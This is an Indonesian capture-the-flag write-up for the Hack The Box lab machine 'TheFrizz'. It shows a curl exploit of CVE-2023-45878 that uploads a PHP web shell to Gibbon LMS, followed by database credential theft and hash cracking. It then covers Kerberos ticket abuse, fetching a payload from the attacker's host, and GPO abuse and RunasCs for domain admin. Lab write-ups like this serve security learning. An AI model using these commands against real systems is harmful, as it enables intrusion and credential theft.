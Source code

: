 # TheFrizz Machine

![machine](./img/machine.jpg)

#### Nmap output
```bash
# Nmap 7.94SVN scan initiated Mon Apr 14 16:27:47 2025 as: nmap -sC -sV -T4 -oA nmap/thefrizz 10.129.38.25
Nmap scan report for 10.129.38.25
Host is up (0.082s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-15 04:27:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-15T04:28:04
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 14 16:28:45 2025 -- 1 IP address (1 host up) scanned in 58.13 seconds
```


>**Penting!!!!**
Beberapa waktu saya stuck tidak bisa ke revshell, akhirnya setelah berdiskusi dengan teman dan melihat dengan seksama *-vvv* di ssh, saya dapat melewatinya.
CMIIW, nama domain frizzdc harus di urutan depan biar di resolve terlebih dahulu. Kerberos dan GSSAPI sensitif soal urutan dan nama domain. Kalau domain-nya salah atau urutannya ngaco, autentikasi bisa gagal total. Disinilah saya stuck beberapa waktu.

#### Tambahkan:
**/etc/hosts:**
```bash
$IP frizzdc.frizz.htb frizz.htb
```

**/etc/krb5.conf**
```bash
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_kdc = false

[realms]
FRIZZ.HTB = {
    kdc = 10.129.38.25
    admin_server = 10.129.38.25
}
```

**/etc/resolv.conf**
```bash
nameserver 10.129.38.25
```

Jangan lupa samakan waktu antara server dan kamu. 

```bash
sudo ntpdate -s $IP
```

![gibbon](./img/gibbon.jpg)

Kita bisa liat versi gibbon lalu search di google atau di exploit-db tentang gibbon dan saya menemukan **CVE-2023-45878**

#### Upload shell:
```bash
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=shell.php" \
--data-urlencode "gibbonPersonID=0000000001"
```

Kalian dapat jalankan menggunakan curl ataupun dengan web
```bash
curl "http://frizzdc.frizz.htb/Gibbon-LMS/shell.php?cmd=whoami"
```

![shell](./img/shell.jpg)

Kalian bisa revshell dan akan mendapatkan file config.php

```bash
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

```bash
C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p "MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E                                      
```
```bash
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
*************************** 1. row ***************************                                                                                                                                                   
           gibbonPersonID: 0000000001                                                                                                                                                                                                      
                    title: Ms.                                                                                                                                                                                                             
                  surname: Frizzle                                                                                                                                                                                                         
                firstName: Fiona                                                                                                                                                                                                           
            preferredName: Fiona                                                                                                                                                                                                           
             officialName: Fiona Frizzle                                                                                                                                                                                                   
         nameInCharacters:                                                                                                                                                                                                                 
                   gender: Unspecified                                                                                                                                                                                                     
                 username: f.frizzle                                                                                                                                                                                                                                         
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6b******************                                                                                                                                                                              
       passwordStrongSalt: /aACFhikmN***********                                                                                                                                                                                                                          
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: 10.10.16.26
        lastFailTimestamp: 2025-03-17 08:29:30
                failCount: 11
                 address1: 
         address1District: 
          address1Country: 
                 address2: 
```

Kita bisa crack menggunakan **john**

```bash
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


**Kredensial:**
```bash
f.frizzle:Jenni_****_Magic**
```

**Dapetin tiket:**
``bash
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_****_Magic**' -dc-ip frizzdc.frizz.htb  

export KRB5CCNAME=f.frizzle.ccache
```

**Masuk ke ssh menggunakan ticket:**
```bash
ssh f.frizzle@frizz.htb -k
```

![gambar user.txt](./img/user.jpg)


Kita bisa gunakan bloodhound untuk melihat domain user lain, karena f.frizzle tidak memiliki privilege.

![bloodhound](./img/bloodhound.png)

Setelah mencari saya mendapatkan $RE2XMEG.7z, kita bisa extract dan mendapatkan sebuah password untuk **M.SchoolBus**.


**Dapetin tiket:**
```bash
impacket-getTGT frizz.htb/m.schoolbus:'password' -dc-ip frizzdc.frizz.htb


export KRB5CCNAME=M.SchoolBus.ccache
```

Masuk ke ssh nya
```bash
ssh M.SchoolBus@frizz.htb -K
```

Vulnerability yang ada di M.SchoolBus adalah SharpGpoAbuse


Kalian bisa download di

```bash
https://github.com/byronkg/SharpGPOAbuse
```

*Menambahkan gpo name:**

```bash
New-GPO -Name "hades" | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

Nyalakan http.server python kalian, lalu download dari machine korban

```bash
Invoke-WebRequest -Uri "http://10.10.*.*/SharpGPOAbuse.exe" -OutFile "SharpGPOAbuse.exe"
```


**Lalu jalankan:**
```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName hades                    

gpupdate /force
 ```

Namun tetap tidak dapat membaca root.txt, butuh RunasCs untuk melakukan nya


**Link RunasCs:**
```bash
https://github.com/antonioCoco/RunasCs
```


```bash
.\RunasCs.exe "M.SchoolBus" "password" "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
```

Enjoy The Flag......

> **akhirnya saya tahu kenapa machine ini walaupun medium, tapi mendapatkan rating 2.2, lmao.**